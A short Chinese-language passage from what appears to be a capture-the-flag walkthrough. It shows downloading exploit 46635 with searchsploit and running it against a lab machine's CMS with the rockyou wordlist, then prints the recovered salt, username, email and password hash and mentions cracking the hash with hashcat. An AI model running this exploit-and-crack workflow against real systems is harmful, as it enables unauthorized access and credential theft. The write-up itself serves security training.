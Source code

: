 # 剥削

![](img/fddaacf580c2cadeecce1fde8aa28565.png)

现在我们将使用我们发现的漏洞，让我们使用我们使用 searchsploit 发现的 python 模块

```
searchsploit -m 46635
```

如果设置了-c 标志，python 脚本需要一个 ip 地址和一个可选的单词列表。
(为了避免运行脚本时出现任何问题，请使用 python2 并确保下载(termcolor 和 requests)它们是脚本使用的 python 模块，您可以使用 pip install 下载它们)

现在让我们运行脚本:

```
python 46635.py -u http://{Add your machine ip here}:80/simple --wordlist=/usr/share/wordlists/rockyou.txt -c[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
```

现在，既然我们有了一个 hash，我们可以使用 [HashCat](https://hashcat.net/hashcat/) 来破解它
